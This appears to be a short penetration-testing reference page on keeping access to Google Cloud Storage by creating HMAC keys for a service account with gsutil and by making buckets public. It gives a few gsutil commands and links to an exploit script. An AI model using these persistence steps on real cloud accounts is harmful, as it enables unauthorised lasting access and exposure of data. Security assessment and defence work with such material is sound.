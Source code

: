 # GCP - Storage Persistence

{{#include ../../../banners/hacktricks-training.md}}

## Storage

For more information about Cloud Storage check:

{{#ref}}
../gcp-services/gcp-storage-enum.md
{{#endref}}

### `storage.hmacKeys.create`

You can create an HMAC to maintain persistence over a bucket. For more information about this technique [**check it here**](../gcp-privilege-escalation/gcp-storage-privesc.md#storage.hmackeys.create).

```bash
# Create key
gsutil hmac create <sa-email>

# Configure gsutil to use it
gsutil config -a

# Use it
gsutil ls gs://[BUCKET_NAME]
```

Another exploit script for this method can be found [here](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/storage.hmacKeys.create.py).

### Give Public Access

**Making a bucket publicly accessible** is another way to maintain access over the bucket. Check how to do it in:

{{#ref}}
../gcp-post-exploitation/gcp-storage-post-exploitation.md
{{#endref}}

{{#include ../../../banners/hacktricks-training.md}}





